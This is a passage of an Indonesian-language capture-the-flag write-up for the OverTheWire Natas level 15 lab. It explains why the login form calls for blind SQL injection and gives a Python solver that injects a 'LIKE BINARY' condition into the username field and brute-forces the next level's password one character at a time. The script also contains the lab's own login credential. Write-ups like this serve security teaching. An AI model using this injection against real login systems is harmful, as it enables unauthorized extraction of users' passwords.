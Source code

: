 Kita diberikan sebuah source code dengan query ke database mysql. Penulis menyimpulkan bahwa database berisi Username dan Password. Hal pertama yang perlu diperhatikan adalah didalam querynya terdapat tulisan where username. Penulis mengetahui ada kolom lain bernama password karena setiap masuk ke web Natas kita akan dimintai Username dan Password.

Sehingga kesimpulannya adalah kita harus melakukan blind sqli untuk menentukan password Natas16.

Untuk memiliki pemahaman yang lebih dalam, mari kita mengetes melalui request method GET dan menambahkan debug. Untuk melihat bentuk querynya.

![Image](img/natas15/step2.jpg)

Mari kita membuat sebuah script python untuk mengautomasikan blind sqli dengan memanfaatkan fitur mysql LIKE dimana akan dilakukan pengecekan per character.

```
#!/usr/bin/env python3
 
import requests
import string
 
url = "http://natas15.natas.labs.overthewire.org/index.php?"
user = "natas15" 
pw = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"
 
charset = string.ascii_lowercase+string.ascii_uppercase+string.digits
 
loop=True
final= ""
while loop:
	loop=False
	for char in charset:
		param = {'username' : 'natas16" and password LIKE BINARY "'+final+char+'%"#'}
		req = requests.post(url,data=param,auth=(user,pw))
		if 'This user exists.' in req.text:
			final += char
			print('Progress : '+final)
			loop=True
			break
```

Kita akan melakukan bruteforce dengan query LIKE dan wildcard untuk mendapatkan password natas16 secara perlahan, per character. Penulis mendapatkan pelajaran penting pula dari picoCTF2018 A Simple Question yang juga merupakan blind sqli, bahwa untuk mendapatkan hasil yang diinginkan lebih akurat dalam artian sampai ke kapital atau non kapital characternya, perlu dicocokkan secara BINARY. Sehingga tidak perlu menebak nebak lagi capital non capitalnya. Mari kita run solver scriptnya.
